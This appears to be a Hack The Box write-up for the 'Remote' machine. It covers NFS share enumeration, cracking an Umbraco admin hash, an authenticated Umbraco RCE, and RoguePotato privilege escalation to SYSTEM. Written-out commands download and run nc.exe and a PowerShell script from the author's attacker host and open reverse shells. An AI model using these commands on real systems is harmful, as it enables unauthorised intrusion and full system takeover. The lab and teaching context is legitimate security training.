 # Remote [HTB]()
![remote-01]()

## Recon

Let's start enumerating the target with an `nmap` scan:

```bash
nmap -p- --min-rate 10000 remote.htb
```

After we get the ports we can query the service verisons with:

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001 -sCV remote.htb -oN nmap.result # I Left out some RPC related ports 
```

![nmap-res-02]()

We have the following:

+ A Microsoft FTPd server on port 21.
+ An HTTP server on port 80.
+ An rpcbind endpoint on port 111.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ A possible NFS share on port 2049.
+ Two HTTPAPI ports at 5985 & 47001.

Quite a large attack surface. It appears that the FTP server is allowing anonymous logins so let's start with that. Afterwards, we can take a look at the NFS share on port 2049, as the NFS protocol doenst have any authintication or authorization. Then we can take a look at the SMB and HTTP servers. 

## FTP Port 21

After connecting anonymously to the server I ran `ls` to list out the contents but it came out empty:

![ftp-empty-03]()

I then tried to download any possible file from the server using this one liner:

```bash
wget -m ftp://anonymous:anonymous@remote.htb
```

But this came out empty as well so i decided to move on to the NFS share. 

## NFS Port 2049 & 111.

If we list out the rpc info using `rpcinfo remote.htb`:

![rpcinfo-04]()

We can see that we have `nfs` listening on `0.0.0.0`, which means we have a network share out there. We can verify this with 

```bash
showmount -e remote.htb
``` 

![showmount-05]()

We have `/site_backups` publicly avialbale to anyone. We can mount this on our local machine with:

```bash
mkdir /mnt/remote.htb
mount -o rw,vers=2 remote.htb:/site_backups /mnt/remote.htb
```

If we `cd` into this directory and run `ls` we can the following:

![dir-tree-06]()

Looks like a backup directory tree of an IIS server. We also see the word `Umbraco` here as well. [Umbraco](https://en.wikipedia.org/wiki/Umbraco) is an open-source CMS platform built on Microsoft .NET framework and designed to work on IIS servers.  

I started by taking a look at `Web.Config`. On line 44 I found this line:

![ver-07]()

I searched online and found an [RCE exploit](https://github.com/Jonoans/Umbraco-RCE) for this version, but we need to be authinticated to pull it off. So i decided to keep looking around the filesystem. 

I started to dig into every file, but I was rather lost, so I to search online for information about juicy Umbraco files. And that's where I found [this post](https://our.umbraco.com/forum/core/general/47400-How-does-Umbraco-store-its-data#:~:text=The%20content%20data%20is%20stored,file%20at%20%2FApp_Data%2Fumbraco.) that mentioned a database at `App_Data/Umbraco.sdf`. So I decided to look for ways to open this file.

I tried to use online tool to convert it to `csv` as well as different forms of databases like `MySQL` and `MariaDB` but nothing worked. I also tried `christianhelle`'s [sqlcequery](https://github.com/christianhelle/sqlcequery) tool to pen sdf files but it didnt work either. 

So instead I ran `strings` on it to see what I can extract:

![strings-08]()

This looks important. I see two user accounts here, `admin` and `smith`, as well as two hashing algorithms, `SHA-1` and `HMAC-SHA256`. I decided to go for the admins password first. 

I cracked it with the following syntax:

```bash
hashcat -m 100 -a 0 "b8be16afba8c314ad33d812f22a04991b90e2aaa" rockyou.txt
```
![pass-09]

The admin's password is `baconandcheese`. Lets try to log in. 


## HTTP Port 80.

Let's figure out where we can log in to the CMS. At first I opend the site at `http://remote.htb` :

![site-10]()

Ok, not much here. Let's run a directory scan with:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://remote.htb/FUZZ -e .cgi,.js,.txt,.xml,.aspx
```

![install-11]()

This sounds interesting and it also gave us a redirect. Lets see where this leads:

![login-page-12]()

It redirected us to `http://remote.htb/umbraco/#/login`. At first I tried authinticating with `admin : `baconandcheese` but this failed. I tried different usernames until I found that `admin@htb.local` works:

![admin-13]()

This username is mentioned in the `Umbraco.sdf` file as well. 

## Initial-Access Exploit

After reveiwing the [source code](https://github.com/Jonoans/Umbraco-RCE/blob/master/exploit.py#L76) of the exploit for a bit, its seems ready to go. We just need to insatll the exploit with:

```bash
git clone https://github.com/Jonoans/Umbraco-RCE
cd Umbraco-RCE
pip install -r requirements.txt
chmod +x exploit.py
```

Then we can run the exploit with:

```bash
./exploit.py -u admin@htb.local -p baconandcheese -w http://remote.htb/ -i 10.10.14.39
```

Which gives us initial access to the target:

![shell-14]()

However this shell gave me a lot of issues, it was quite unstable. So I hosted `nc.exe` on my Kali machine via a python web server, and downloaded it to the target and connected back to my kali with:

```cmd
cd c:\\windows\temp
certutil -urlcache -f http://10.10.14.39/nc.exe nc.exe
.\nc.exe -e cmd.exe 10.10.14.39 443
```

![shell-15]()

## Privilege Escalation

After landing on the machine, I started hunting for quick wins. First, I looked at our user's privileges with:

```cmd
whoami /priv
```

![privs-16]()

Looks like we have the `Impersonate` privilege enbaled which means we can try to pull off a potato attack. However if we take a look at the target OS we will see it is running a 2019 Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![os-17]()

So `JuicyPotato` wont work here. Instead we can use [RoguePotato](https://github.com/antonioCoco/RoguePotato). We can download a compiled version [here](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe). 

Once the have Rogue-Potato on our Kali, we need to transfer it over to the target. Set up a python server:

```bash
python3 -m http.server 80
```

And download the both Rogue-Potao to the target with:

```cmd
certutil -urlcache -f http://10.10.14.39/RoguePotato.exe rp.exe
```

Now, we setup `socat` to run on port 135 on our Kali machine and redirect it back to remote on port 9999:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.129.231.183:9999
```

Then I tried to connect on a shell using:

```cmd
.\rp.exe -r 10.10.14.39 -e "c:\\Windows\\Temp\nc.exe -e cmd.exe 10.10.14.39 9001" -l 9999
```

Rogue-Potato succesfully executed, but I didnt get a shell. So instead I decided to go for a different approach with nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Make sure to invoke the script at the end:

![invoke-17.5]()

I hosted this file with a python server, and started my listener with:

```bash
rlwrap nc -lnvp 9001
```

Then, I executed Rogue-Potato once again with:

```cmd
.\rp.exe -r 10.10.14.39 -e "powershell -c iex( iwr http://10.10.14.39/shell.ps1 -UseBasicParsing)" -l 9999
```

This gave me a shell as the SYSTEM:

![root-18]()

